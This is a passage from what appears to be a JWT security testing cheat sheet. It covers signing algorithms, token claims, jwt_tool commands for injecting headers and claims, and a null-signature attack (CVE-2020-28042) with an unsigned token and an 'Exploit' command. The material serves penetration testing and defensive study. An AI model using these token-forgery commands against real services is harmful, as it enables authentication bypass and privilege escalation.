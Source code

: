 | ES512 | ECDSA using P-521 and SHA-512	                 | Optional      |
| PS256 | RSASSA-PSS using SHA-256 and MGF1 with SHA-256 | Optional      |
| PS384 | RSASSA-PSS using SHA-384 and MGF1 with SHA-384 | Optional      |
| PS512 | RSASSA-PSS using SHA-512 and MGF1 with SHA-512 | Optional      |
| none	| No digital signature or MAC performed          | Required      |

Inject headers with [ticarpi/jwt_tool](#): `python3 jwt_tool.py JWT_HERE -I -hc header1 -hv testval1 -hc header2 -hv testval2`
 

### Payload

```json
{
    "sub":"1234567890",
    "name":"Amazing Haxx0r",
    "exp":"1466270722",
    "admin":true
}
```

Claims are the predefined keys and their values:
- iss: issuer of the token
- exp: the expiration timestamp (reject tokens which have expired). Note: as defined in the spec, this must be in seconds.
- iat: The time the JWT was issued. Can be used to determine the age of the JWT
- nbf: "not before" is a future time when the token will become active.
- jti: unique identifier for the JWT. Used to prevent the JWT from being re-used or replayed.
- sub: subject of the token (rarely used)
- aud: audience of the token (also rarely used)

Inject payload claims with [ticarpi/jwt_tool](#): `python3 jwt_tool.py JWT_HERE -I -pc payload1 -pv testval3`


## JWT Signature

### JWT Signature - Null Signature Attack (CVE-2020-28042)

Send a JWT with HS256 algorithm without a signature like `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.`

**Exploit**:
```ps1
python3 jwt_tool.py JWT_HERE -X n
```

**Deconstructed**:
```json
{"alg":"HS256","typ":"JWT"}.
{"sub":"1234567890","name":"John Doe","iat":1516239022}
```
